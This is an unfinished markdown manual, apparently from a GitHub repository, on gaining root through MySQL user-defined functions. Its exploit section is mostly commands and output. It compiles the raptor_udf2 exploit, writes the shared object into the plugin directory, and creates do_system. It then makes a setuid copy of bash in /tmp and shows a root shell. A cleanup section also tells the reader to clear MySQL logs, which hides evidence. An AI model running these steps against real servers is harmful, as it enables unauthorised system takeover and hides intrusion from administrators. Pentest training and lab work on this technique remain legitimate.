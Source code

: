 # Manual

## 01 - Detect

Exploiting misconfigured services with root access such as MySQL databases can pose a real risk that an attacker can take full control. If the following requirements has been met. MySQL whatever if MySQL has password database or no authentication which makes things even easier for the hacker.

Install the following dependencies

`$ sudo apt install default-libmysqlclient-dev`

We have lookup via `searchsploit` tool with a set of local copies of the exploitdb that is stored on the hacker's machine

`$ searchsploit mysql user-defined function`

`$ searchsploit -x 1518`

This [MySQL exploit](https://www.exploit-db.com/exploits/1518) has comments that explains with the builtin function for `do_system()` in MySQL that has something to do with misconfigurations with root access that allows the attacker to take full control. Follow the instructions of what the author wrote to compile the exploit.

## 02 - Exploit

```
$ gcc -g -c raptor_udf2.c -fPIC
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Once the exploit is ready. Authenticate with the MySQL credentials with root privileges

```
$ mysql -u root

mysql> SHOW VARIABLES LIKE '%plugin%';

mysql> SHOW VARIABLES LIKE '%secure_file_priv%';

mysql> USE mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> CREATE TABLE newtbl(LINE BLOB);
Query OK, 0 rows affected (0.01 sec)

mysql> INSERT INTO newtbl VALUES(LOAD_FILE('/home/user/raptor_udf2.so'));
Query OK, 1 row affected (0.00 sec)

mysql> SELECT * FROM newtbl INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
Query OK, 1 row affected (0.00 sec)

mysql> SELECT do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service');
+----------------------------------------------------------------------------+
| do_system('cp /bin/bash /tmp/mysql-service; chmod +xs /tmp/mysql-service') |
+----------------------------------------------------------------------------+
|                                                                          0 |
+----------------------------------------------------------------------------+
1 row in set (0.01 sec)

user@debian:~$ ls -lh /tmp/mysql-service
-rwsr-s--x 1 root root 905K Jan 19 20:18 /tmp/mysql-service
user@debian:~$ /tmp/mysql-service -p
mysql-service-4.1# whoami
root
```

**TODO:** Write about this

Another way to exploit the MySQL service but this technique we'll be using it to transfer the file by copying the shared object file as in binary encoded text to execute MySQL query.

`$ searchsploit mysql user-defined`

`$ searchsploit -x 46249`

## 03 - Cleanup

TODO: Finish this info

Once it was successfully exploited. Get rid of the table you've created and clear the MySQL logs as well.

`mysql> TRUNCATE TABLE newtbl;`

---
## References

- [Certcube: MySQL UDF Basics and Exploitation](https://blog.certcube.com/mysql-udf-basics-and-exploitation/)

- [Privilege Escalation with MySQL User Defined Functions](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf)

- [Lib MySQLUDF_Sys](https://github.com/mysqludf/lib_mysqludf_sys)

- [Database Takeover User-Defined Functions (UDF) for MySQL and PostgreSQL Github repository](https://github.com/sqlmapproject/udfhack)

- [MySQL Show Privileges Statement](https://www.tutorialspoint.com/mysql/mysql_show_privileges_statement.htm)